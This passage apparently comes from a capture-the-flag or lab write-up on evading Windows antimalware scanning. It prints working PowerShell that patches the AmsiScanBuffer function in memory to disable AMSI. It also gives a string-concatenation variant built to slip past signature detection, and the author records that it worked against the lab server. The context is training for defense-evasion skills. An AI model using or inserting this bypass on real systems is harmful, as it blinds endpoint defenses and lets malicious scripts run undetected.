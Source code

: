 ```powershell
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

- Once sufficiently obfuscated, submit the snippet to the webserver at `http://10.10.105.14/challenge-1.html`. The file name must be saved as `challenge-1.ps1`. If correctly obfuscated a flag will appear in an alert pop-up.

**Code Obfuscated by Concatenation**:

```powershell
$lib = "[DllImport(`"kernel32`")]"
$GetProcAddress = "public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);"
$GetModuleHandle = "public static extern IntPtr GetModuleHandle(string lpModuleName);"
$VirtualProtect = "public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);"
$MethodDefinition = "

    $lib
    $GetProcAddress

    $lib
    $GetModuleHandle

    $lib
    $VirtualProtect
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$A = "AmsiScanBuffer"
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $A);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);

$buf = new-object byte[] 6
$buf[0] = [UInt32]0xB8
$buf[1] = [UInt32]0x57
$buf[2] = [UInt32]0x00
$buf[3] = [UInt32]0x07
$buf[4] = [UInt32]0x80
$buf[5] = [UInt32]0xC3

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

	- This worked!
